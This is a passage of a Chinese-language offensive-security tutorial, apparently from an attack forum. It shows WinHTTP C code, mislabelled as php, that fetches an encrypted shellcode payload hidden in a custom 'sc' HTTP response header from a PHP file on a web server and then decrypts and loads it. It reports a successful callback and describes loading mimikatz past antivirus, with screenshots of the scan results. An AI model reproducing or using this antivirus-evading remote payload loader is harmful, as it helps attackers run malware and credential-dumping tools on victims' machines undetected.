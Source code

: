 我们先搭建一个网站,然后我们把生成的ii.php文件放在网站根目录下

在Winhttpconnect里填写网站对应的ip，端口，在WinHttpOpenRequest里填写对应要访问的php文件  
**( WinHttpOpenRequest的第三个参数就是要访问的文件名 )**  
（我是本地用phpstudy搭建的，所以ip为127.0.0.1，端口是80，文件名是生成的ii.php）

```php
HINTERNET hSession = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnect = WinHttpConnect(hSession, L"127.0.0.1", 80, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"ii.php", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
```

随后调用WinHttpSendRequest和WinHttpReceiveResponse

```php
BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
bResults = WinHttpReceiveResponse(hRequest, NULL);
```

最后我们用WinHttpQueryHeaders获取sc这个请求头的数据，最后解密加载即可

```php
if (bResults){ //bResults是调用WinHttpSendRequesth和WinHttpReceiveResponse后的布尔值
    bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_RAW_HEADERS_CRLF, WINHTTP_HEADER_NAME_BY_INDEX, NULL, &dwSize, WINHTTP_NO_HEADER_INDEX);
    if (GetLastError() == ERROR_INSUFFICIENT_BUFFER)
    {
        lpOutBuffer = new CHAR[dwSize / sizeof(CHAR)];
        bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "sc", lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);

        LoadSc(lpOutBuffer);//这个函数定义在上面
    }
}
```

**成功上线**  
![text.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-7be53abf51cd16c910aef4068ba409c0ee4b319c.png)

免杀加载mimikatz
------------

**mimikatz本身是我是没有做任何免杀的**

**效果如下**

![360katz.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-7766f60cbc78fb989cb0c3c948067ff714247b13.png)

![katzvt.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-4d053993eca79fd8482262ca91268af38e2384f3.png)  
**不过因为存在杀软的原因，所以还是无法读取密码,不过至少达到我们加载mimikatz的目的了**

![360katzerror.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-244f151151e5cb4c80c40cdb0eb25352172c7869.png)
